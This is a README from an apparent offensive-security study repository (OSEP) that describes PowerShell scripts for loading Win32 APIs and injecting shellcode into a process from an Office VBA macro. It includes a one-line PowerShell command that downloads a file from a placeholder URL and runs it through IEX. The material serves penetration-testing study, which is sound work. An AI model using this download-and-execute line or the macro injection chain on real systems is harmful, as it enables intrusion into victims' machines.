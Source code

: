 ### PowerShell

In this repository we have some scripts that describes the process to execute a shellcode in PowerShell.

- In [InvokeWin32APIs.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/InvokeWin32APIs.ps1), we learn how to import some Win32 APIs over C# code. 
- In [ShellCodeLauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/ShellCodeLauncher.ps1), we implement that Win32 APIs over our current powershell session and use it to copy our shellcode in memory and inyect it over the execution flow of the current process.
- In [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) we modify some parts of the script before to be succesfully launched in a VBA macro.

The method to use correctly this script is to use it with [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1), the str var must contian the follwoing line:

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('\<URL\>', '\<OUTFILE\>') | IEX
```
